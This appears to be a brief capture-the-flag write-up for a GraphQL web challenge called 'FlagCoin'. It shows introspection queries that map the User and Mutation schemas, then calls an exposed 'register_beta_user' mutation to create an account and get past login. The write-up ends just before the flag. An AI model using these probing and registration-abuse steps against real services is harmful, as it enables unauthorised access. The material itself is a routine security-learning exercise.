

### FlagCoin

I couldn't really play this as whole because I had some errands to run for. Though, I solved this easy web challenge which was based on GraphhQL
So, looking into the challenge, we see that there's a login page, checking the source of `main.js` which handles the login request:


```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "User"
        },
        {
          "name": "String"
        },
        {
          "name": "Int"
        },
        {
          "name": "Mutation"
        },
        {
          "name": "Voucher"
        },
        {
          "name": "JSON"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```
There are different numbers of schemas available but `Users` and `Mutations` are more of concern here, a quick overview of the `mutation` is that it acts like a function in a GraphQL query. Digging deeper into the `User` schema, we see that it contains 3 columns i.e. `username`, `password` and `coins`:

```r
query={__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "password",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "coins",
          "type": {
            "name": "Int",
            "kind": "SCALAR",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

Trying to query `User` with `query={User{username,password}}`, it simply threw an error `"message":"Cannot query field \"User\" on type \"Query\".",`. Since, we already know that `mutations` exists here, we can try to see if there is any other mutations we can make use of:

```json
{
  "data": {
    "__type": {
      "name": "Mutation",
      "fields": [
        {
          "name": "login",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "register_beta_user",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "redeem",
          "type": {
            "name": "Voucher",
            "kind": "OBJECT",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

There is a mutation named `register_beta_user`, for the initial login request, I just replace the `login` with `register_beta_user` and the application gave a successful response:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": {
    "username": "hello",
    "password": "world"
  }
}
```

```json
{
  "data": {
    "register_beta_user": {
      "username": "hello"
    }
  }
}
```

Once done, logging in with the credentials `hello:world` gave the flag:

